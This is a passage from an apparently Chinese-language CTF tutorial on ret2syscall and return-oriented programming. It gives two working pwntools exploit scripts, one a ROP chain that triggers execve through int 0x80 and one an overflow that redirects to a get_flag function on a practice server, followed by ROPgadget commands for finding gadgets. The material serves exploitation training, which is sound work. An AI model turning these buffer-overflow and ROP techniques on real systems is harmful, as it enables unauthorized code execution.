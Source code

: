 程序转到返回地址后，会依次修改寄存器的值，从而构造execve函数执行条件，最后触发int 0x80中断，来进行系统调用，执行execve函数。

exp：

```python
from pwn import *
p=process('./rop') #以本地为攻击环境
int_addr=0x8049421
bin_addr=0x80be408
pop_other_ret=0x806eb90
pop_eax_ret=0x80bb196
payload='a'*112+p32(pop_eax_ret)+p32(0xb)+p32(pop_other_ret)+p32(0)+p32(0)+p32(bin_addr)+p32(int_addr)
p.sendline(payload)
p.interactive()
```

本地被打通：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/sys9.png?x-oss-process=style/watermark" style="zoom:80%;" />

## 1.4 例子2

题目：https://buuoj.cn/challenges#get_started_3dsctf_2016  。题目名字：get_started_3dsctf_2016

反汇编：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/sys10.png?x-oss-process=style/watermark" style="zoom:80%;" />

同样v4没有限制输入长度，可以溢出。

细心观察可以发现，有一个get_flag函数，令 if ( a1 == 814536271 && a2 == 425138641 )满足，可以直接获得flag:

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/sys11.png?x-oss-process=style/watermark" style="zoom:80%;" />

具体来说，通过溢出使其转到get_flag函数，然后使get_flag的参数等于814536271和425138641的地址就可以了（直接在IDA里面就可以找到）。注意程序需要正常退出才能回显，所以要使flag的返回地址后加一个退出地址。

```python
from pwn import *
p=remote('node4.buuoj.cn',27237)
get_flag=0x080489A0 #get_flag函数地址
arg0=0x308CD64F #814536271数字存放地址
arg1=0x195719D1 #425138641数字存放地址
exit=0x0804E6A0 #exit函数地址
payload = 'a'*56+p32(get_flag)+p32(exit)+p32(arg0)+p32(arg1)
p.sendline(payload) 
p.interactive()
```

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/sys20.png?x-oss-process=style/watermark" style="zoom:80%;" />

除此之外，使用ret2syscall方法进行攻击：同样使用ROPgadget查找pop命令，来构造寄存器：

```python
ROPgadget --binary get_started_3dsctf_2016  --only 'pop|ret' | grep 'eax' 
ROPgadget --binary get_started_3dsctf_2016  --only 'pop|ret' | grep 'ebx' 
ROPgadget --binary get_started_3dsctf_2016  --only 'int'
ROPgadget --binary get_started_3dsctf_2016 --string '/bin/sh'
```
